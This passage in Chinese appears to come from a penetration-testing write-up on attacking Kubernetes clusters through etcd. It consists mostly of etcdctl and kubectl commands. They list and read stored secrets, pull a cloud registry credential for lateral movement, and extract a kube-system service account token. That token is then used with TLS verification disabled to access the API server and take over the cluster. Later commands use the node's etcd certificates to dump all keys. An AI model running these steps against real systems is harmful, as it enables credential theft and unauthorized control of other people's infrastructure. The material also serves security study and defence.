 查看 K8s secrets

```plain
etcdctl get / --prefix --keys-only | grep /secrets/
```

获取集群中保存的云产品 AK，横向移动：

```plain
etcdctl get /registry/secrets/default/acr-credential-518dfd1883737c2a6bde99ed6fee583c
```

读取 service account token

```plain
etcdctl get / --prefix --keys-only | grep /secrets/kube-system/clusterrole
```

通过 token 认证访问 API-Server，接管集群：

```plain
kubectl --insecure-skip-tls-verify -s https://127.0.0.1:6443/ --token="[ey...]" -n kube-system get pods
```

**证书使用**  
查看链接状态

```plain
sudo ./etcdctl --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379 endpoint health
```

[![](assets/1701826061-4c7f71b41ccc96844d965659495a1d3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170439-877d434e-7315-1.png)  
查看集群状态

```plain
etcdctl --write-out=table --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379 endpoint status
```

[![](assets/1701826061-cb358c9a1777c706bf92719849421796.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170458-92612000-7315-1.png)  
列出所有的 keys

```plain
./etcdctl --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379 get / --prefix --keys-only
```
